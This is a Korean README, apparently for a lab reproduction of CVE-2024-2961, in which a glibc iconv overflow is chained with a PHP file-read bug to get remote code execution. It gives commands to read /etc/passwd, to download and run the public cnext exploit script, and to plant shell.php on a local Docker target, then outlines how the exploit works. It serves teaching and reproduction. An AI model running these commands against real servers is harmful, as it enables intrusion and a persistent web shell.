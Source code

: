 # CVE-2024-2961: PHP 파일 읽기를 통한 원격 코드 실행 취약점 (GNU C Library Iconv)  
**CVE-2024-2961**은 **PHP 애플리케이션**에서 **원격 코드 실행**(RCE)을 가능하게 하는 취약점이다.  
이 취약점은 **GNU C 라이브러리**(glibc)의 **iconv() 함수**에서 발생하며, 그로 인해 **버퍼 오버플로우**와 **원격 코드 실행**(RCE) 공격이 가능하다.

## **Vulnerability Overview (취약점 개요)**
**GNU C 라이브러리**(glibc)는 호환성, 이식성, 높은 성능을 자랑하는 ISO C 라이브러리이다.  
**CVE-2024-2961**은 GNU C 라이브러리 **2.39 이하** 버전에서 발생하는 취약점으로, `iconv()` 함수에서 발생한다.  
특히, 문자열을 **ISO-2022-CN-EXT** 문자 집합으로 변환할 때, 출력 버퍼가 최대 **4바이트까지 오버플로우**되어 애플리케이션 충돌을 일으키거나 변수를 덮어쓸 수 있다.  
이 취약점은 **PHP 애플리케이션의 파일 읽기 취약점**과 결합되면서, 공격자가 **원격 코드 실행**(RCE) 공격을 수행할 수 있게 만든다.  

참고문헌:
- https://www.ambionics.io/blog/iconv-cve-2024-2961-p1

## **취약점 영향**
- **버퍼 오버플로우**: 오버플로우로 인해 애플리케이션 충돌이나 메모리 손상이 발생할 수 있다.
- **원격 코드 실행**: 이 취약점을 악용하면 공격자가 원격에서 임의의 코드를 실행할 수 있다.

## **취약한 환경 설정 (Vulnearable Environment)**
다음 명령어를 실행하여 **PHP 8.3.4** 서버와 **iconv 2.36** 버전이 포함된 환경을 시작한다:
   ```bash
   docker compose up -d
   ```
   서버가 시작되면, 브라우저에서 http://localhost:8080/index.php?file=/etc/passwd를 통해 /etc/passwd 파일을 읽을 수 있다.  

## **취약점 악용 (Exploit)**
1. 취약점을 악용하려면, Linux 기반 시스템과 **Python 3.10** 이상이 필요하다.
2. 필요한 종속성을 설치한다:
   ```bash
   pip install pwntools
   pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
   ```
3. PoC를 다운로드하고 실행한다:

   ```bash
   wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
   python cnext-exploit.py http://localhost:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```

   ❗주의: 만약 `localhost`가 작동하지 않는다면, 대신 자신의 IP 주소를 사용해야 한다.
   
   💡참고: 자신의 IP 주소는 `ipconfig` 명령어를 사용하여 확인할 수 있다.

     - Linux 환경에서는 `eth0` 인터페이스에서 IP를 확인할 수 있다.
       
   예를 들어, 자신의 IP 주소가 `192.168.1.100`이라면 아래와 같이 입력한다:
   ```bash
   python cnext-exploit.py http://192.168.1.100:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```
   `your-ip`는 `ipconfig` 명령어를 통해 확인한 실제 IP 주소로 바꿔야 한다.

   ![image](https://github.com/user-attachments/assets/83b19dd0-48bd-42d0-a45d-891851d44651)
    이처럼 shell.php가 성공적으로 작성된다.
   
4. 브라우저에서 `shell.php`를 확인한다.
   ```bash
   http://localhost:8080/shell.php
   ```
   ![image](https://github.com/user-attachments/assets/96357e65-63ff-4313-ba5d-c553cd743d37)
   위와 같이 `shell.php`가 잘 실행된다.

## **PoC 코드 개요**
`cnext-exploit.py`는 대상 서버의 **파일 읽기 취약점**을 이용하여, **glibc iconv 버그**를 트리거하고 **원격 코드 실행(RCE)**을 달성하는 익스플로잇 스크립트이다.

- 서버가 지원하는 PHP 스트림(wrapper) 기능 (`php://filter', 'zlib.inflate' 등)을 이용하여 서버 메모리를 조작한다.
- `/proc/self/maps` 파일을 통해 PHP 프로세스의 메모리 레이아웃(libc, 힙 주소 등)을 수집한다.
- `iconv()` 함수의 버퍼 오버플로우 취약점을 이용하여 메모리 구조를 덮어쓰고, 시스템 명령어 실행이 가능하도록 한다.
- 최종적으로 서버에 원하는 PHP 파일(`shell.php`)을 생성하여, 원격에서 명령어를 실행할 수 있다.
